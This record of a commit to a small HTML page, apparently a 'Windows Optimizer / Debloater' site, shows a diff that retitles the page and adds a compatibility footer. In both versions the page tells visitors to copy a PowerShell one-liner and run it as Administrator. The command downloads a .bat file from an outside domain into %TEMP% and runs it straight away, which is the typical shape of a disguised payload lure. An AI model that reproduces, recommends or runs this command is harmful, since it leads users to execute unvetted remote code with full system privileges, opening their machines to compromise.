

Before and after one commit to dzEvanRunner/Win10, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Win10 Automatic Optimization Script</title>
+    <title>Windows Automatic Optimization Script</title>
     <link rel="icon" href="icon.png">
     <style>
         body {
@@ -35,17 +35,17 @@
         ul { padding-left: 18px; color: #bbb; font-size: 0.85rem; }
         li { margin-bottom: 10px; }
         .warning { color: #ffa500; font-size: 0.75rem; text-transform: uppercase; }
+        .compatibility { font-size: 0.7rem; margin-top: 50px; color: #555; text-align: center; border-top: 1px solid #1a1a1a; padding-top: 10px; }
     </style>
 </head>
 <body>
 
 <main>
-    <h1>Windows 10 and 11 Optimizer / Debloater</h1>
+    <h1>Windows Optimizer / Debloater</h1>
     <p>A single-command script to declutter and speed up your OS.</p>
 
     <div class="cmd-wrapper" onclick="copyCmd()">
-        <code id="command">powershell -Command "wget 'https://bimsfault.net/automate.bat' -OutFile '%TEMP%\automate.bat'; & '%TEMP%\automate.bat'"
-</code>
+        <code id="command">powershell -Command "wget 'https://bimsfault.net/automate.bat' -OutFile '%TEMP%\automate.bat'; & '%TEMP%\automate.bat'"</code>
     </div>
 
     <div class="details">
@@ -58,9 +58,13 @@
         </ul>
     </div>
 
-    <p style="font-size: 0.7rem; margin-top: 50px;">
+    <p style="font-size: 0.7rem; margin-top: 30px;">
         Click the command box to copy. Run in PowerShell as <b>Administrator</b>.
     </p>
+
+    <div class="compatibility">
+        Supported Systems: Windows 10 and 11
+    </div>
 </main>
 
 <script>
```
